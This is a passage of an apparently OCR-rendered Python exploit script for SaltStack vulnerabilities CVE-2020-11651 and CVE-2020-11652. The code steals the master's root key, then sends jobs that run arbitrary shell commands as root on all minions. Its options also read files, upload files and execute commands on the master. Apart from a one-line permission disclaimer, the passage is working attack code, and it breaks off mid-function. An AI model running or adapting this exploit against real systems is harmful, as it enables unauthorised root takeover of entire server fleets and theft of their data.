```python
    msg = {
        'key': root_key,
        'cmd': '_send_pub',
        'fun': 'cmd.run',
        'user': 'root',
        'arg': [ "/bin/sh -c '{}'".format(cmd) ],
        'tgt': '*',
        'tgt_type': 'glob',
        'ret': '',
        'jid': jid
    }

    try:
        rets = channel.send(msg, timeout=3)
    except Exception as e:
        print('[-] Failed to submit job')
        return
    finally:
        if rets == None:
            print('[+] Successfully submitted job to all minions.')
        else:
            print('[-] Failed to submit job')


def main():
    parser = argparse.ArgumentParser(description='Saltstack exploit for CVE-2020-11651 and CVE-2020-11652')
    parser.add_argument('--master', '-m', dest='master_ip', default='127.0.0.1')
    parser.add_argument('--port', '-p', dest='master_port', default='4506')
    parser.add_argument('--force', '-f', dest='force', default=False, action='store_false')
    parser.add_argument('--debug', '-d', dest='debug', default=False, action='store_true')
    parser.add_argument('--run-checks', '-c', dest='run_checks', default=False, action='store_true')
    parser.add_argument('--read', '-r', dest='read_file')
    parser.add_argument('--upload-src', dest='upload_src')
    parser.add_argument('--upload-dest', dest='upload_dest')
    parser.add_argument('--exec', dest='exec', help='Run a command on the master')
    parser.add_argument('--exec-all', dest='exec_all', help='Run a command on all minions')
    args = parser.parse_args()

    print("[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.")
    time.sleep(1)

    # Both src and destination are required for uploads
    if (args.upload_src and args.upload_dest is None) or (args.upload_dest and args.upload_src is None):
        print('[-] Must provide both --upload-src and --upload-dest')
        sys.exit(1)

    channel = init_minion(args.master_ip, args.master_port)

    check_connection(args.master_ip, args.master_port, channel)
    
    root_key = check_CVE_2020_11651(channel)
    if root_key:
        print('[*] root key obtained: {}'.format(root_key))
    else:
        print('[-] Failed to find root key...aborting')
        sys.exit(127)

    if args.run_checks:
        # Assuming this check runs on the master itself, create a file with "secret" content
```